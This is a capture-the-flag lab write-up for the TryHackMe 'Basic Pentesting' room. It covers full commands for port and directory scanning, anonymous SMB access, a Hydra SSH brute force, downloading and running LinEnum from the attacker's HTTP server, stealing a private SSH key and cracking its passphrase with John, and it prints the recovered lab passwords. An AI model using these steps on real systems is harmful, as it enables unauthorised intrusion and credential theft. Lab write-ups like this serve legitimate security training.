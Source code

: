 # Basic Pen Testing Report

**Target Host - 10.10.162.245**

**Local Host - 10.4.65.102**

I start by executing a `nmap -sV -A 10.10.162.245` scan to locate open ports, services, versions and the operating system.

![](Screenshots/nmap_results.png)

Nmap reveals that ports 80 & 8080 are open.  I will try locating the webpage

![](Screenshots/WebGUI_normal_page.JPG)

Accessing the web page results in a blank page indicating it is undergoing maintenance.  Lets try using port 8080 instead.

![](Screenshots/Web_Gui_Port_8080.JPG)

Accessing via port 8080 indicates that there may be directories hidden inside of the web gui that aren't visible.  I will use gobuster to identify if this is correct.

I type the following command into the kali terminal:

`gobuster dir -u http:10.10.162.245 -w /usr/share/wordlists/dirbuster/directory-list-2.3.medium.txt`

dir =  looks for hidden directories in the URL specified.

-u = specifies the URL to look for directories within.

-w = applies wordlist with common directory names as a dictionary to cross reference and help locate directories.

![](Screenshots/go_buster.JPG)

Gobuster has identified a hidden directory `/development` exists on the webpage.  Now I can type in `http://10.10.162.245/development` into the web gui to access this.

![](Screenshots/WebGUI_Hidden_page.JPG)

Navigating to the hidden url has revealed 2x .txt files called dev and j.  The contents of j indicate that the user j has a weak password which I can attempt to brute as identified by someone named k.  Both of these are also potential usernames.  The contents of dev indicate that there may be useful information in /etc/shadow.

From my previous nmap scan I know that port 22/SSH is open so I can attempt to ssh into the server and use j or k as the username.

![](Screenshots/SSH_Access_via_user_J.JPG)

Bingo.  I can ssh into the server and successfully guess that the username is j.  Now I can run a password cracking tool to brute force the password - for this I will use Hydra and the rockyou.txt common password dump wordlist.  The wordlist is located in `/usr/share/wordlists/rockyou.txt`

Before I attempt to brute force I will attempt to locate information using SMB as it is also open as identified via nmap earlier.

![](Screenshots/SMB_Client_Permissions.JPG)

Using the command `smbmap -H 10.10.162.245` I can identify the host share permissions.  This has identified that Anonymous Read only access is available which is excellent as we can enter without a password.

Next I will use the command `smbclient \\\\10.10.162.245\\anonymous` to gain read only access to the client via SMB.  Once I have access I will enter a `ls` command to locate the contents of the current directory - this identifies a txt file called `staff.txt`

![](Screenshots/SMB_Shell.JPG)

I open the contents of the staff.txt file by entering the command `cat staff.txt`.  This reveals 2 staff members named Jan & Kay.  Excellent as this seems to match up with what we identified earlier with j & k.

Now I will attempt to use Hydra to brute force all possible username combinations `j, k, J, K, Jan, Kay, jan, kay` using the following command.

`sudo hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.111.49 ssh` **- please note the IP has changed as the victim attack box timed out**

-l = Sets the username as jan

-P = Sets the password but in this case its pointing towards a common password list called rockyou.txt.  Basically Hydra will brute force using every password in the rockyou.txt file against the username jan to find a successful match.

ssh = Tells Hydra to attack via ssh.

![](Screenshots/Successful_brute_force_credentials_viewed.JPG)

As per above I can confirm the hydra attack was succesful in identifying the password for user jan is `armando`.  Now I can ssh into the client using the command `ssh jan@10.10.110.118` and enter the password `armando`. **- please note the IP has changed as the victim attack box timed out**

![](Screenshots/SSH_Successful_login.JPG)

Now that I can successfully login to the server with the user account jan - I am to enumerate privileges.  For this I will use the LiNEnum script on the victim machine to locate potential vectors (Privelage escalation script to locate useful information for potential vectors to escalate privilege).  To achieve this I will need to transfer the script over to the server from my kali machine.  I will set my machine up as a HTTP server using the command `python3 -m http.server`

![](Screenshots/ATK_MACHINE_AS_HTTP_Server.JPG)

As you can see I can now access my machine via the web gui through the my `ip_address:8000 (http://10.4.65.102:8000)`.  For convenience sake I pasted this LiNEnum script into my root directory so it is easily accessible. 

![](Screenshots/Copying_LinENum.sh_to_Parent_Directory.JPG)

Now all I need to do is retrieve this script from the victims machine.  I attempt do this from the default directory logged in as user jan however I am unsuccessful using the command `wget http://10.4.65.102:8000/LinEnum.sh`, but I receive a Permission Denied Error.  I will try navigating to the /tmp directory using the command `cd /tmp` as it usually has write permissions.  From here I will attempt to retrieve the .sh script again.

![](Screenshots/Retrieving_SH_SCRIPT_VIA_SSH_IN_TMP_DIRECTORY.JPG)

Retrieving the script is sucessfuly via the tmp directory.  Now I can execute the bash script using the command `bash LinEnum.sh`

![](Screenshots/EXECUTING_LINENUM_VIA_SSH.JPG)

Now that I have executed LinEnum, I have to determine how I can enumerate permissions or retrieve useful information.  On the victim server I identify current directory contents by using `ls` and locate a usr folder.  I navigate to the and identify another user name kay.  From there I identify her .bak pass file. 


![](Screenshots/Locating_User_Kay_Pass.bak.JPG)
**Please note there is a vast majority of useful information here to retrieve but for the purpose of this TryHackMe room I will attempt to retrieve this password)**

I navigate back to the user kay directory and enter `ls -la` to identify any hidden directors and associated permissions.  I identify the sub folder `.ssh`.  Navigating here reveals the `id_rsa` file which is the user kay's private RSA key associated with her SSH login. - excellent. 


 I enter the command `id_rsa` to identify the rsa key and I copy this output and open up my alternate Kali shell and paste this into a text file using the command `nano.txt`

 ![](Screenshots/ID_RSA_EXECUTE_PERMISSIONS.JPG)

I now give the file execute permissions by typing `chmod +x id_rsa`.  Now I can try to ssh back into the shell using user `kay` this time with the following command `ssh -i id_rsa kay@10.10.153.90`.  Unfortunately the password is passphrase is protected.

![](Screenshots/JOHN_ID_RSA_HASH_KEY_OUTPUT.JPG)

I can use an offline password cracking tool such as John the Ripper to brute force this.  I locate the ssh john the ripper file `ssh2john.py` in `usr/share/john`.  I cd back to the root directory and execute the password cracking .py file against the rsa key using the following command `python3 /usr/share/john/ssh2john.py id_rsa`


![](Screenshots/HASH.TXT%20JOHN%20COMMAND.JPG)

This appears to print out a hash key.  I enter the same command with `> hash.txt` added to the end to print that hash output to a txt file.

From here I can run john the ripper against the hash.txt file using the rockyou.txt wordlist once again to brute force the passphrase of the SSH private key passphrase.

![](Screenshots/JOHN_OUTPUT_PASSWORD%3Dbeeswax.JPG)


This reveals the the passphrase for the id_rsa file as `beeswax`

Now i can enter the web server as user kay by entering the command `ssh -i id_rsa kay@10.10.153.90`.  The victim server will prompt for a passphrase oif the ssh rsa file which I know now as `beeswax`.  I enter the passphrase and successfully get ssh access to the server as kay.

![](Screenshots/LOGGED_IN_AS_KAY.JPG)

The final task is to identify the password of the user kay to complete this room.  I attemp to locate any hidden files by entering `ls -la` and identify `pass.bak`.  I execute this by entering `cat pass.bak` and it reveals the password to be:
`heresareallystrongpasswordthatfollowsthepasswordpolicy$$`

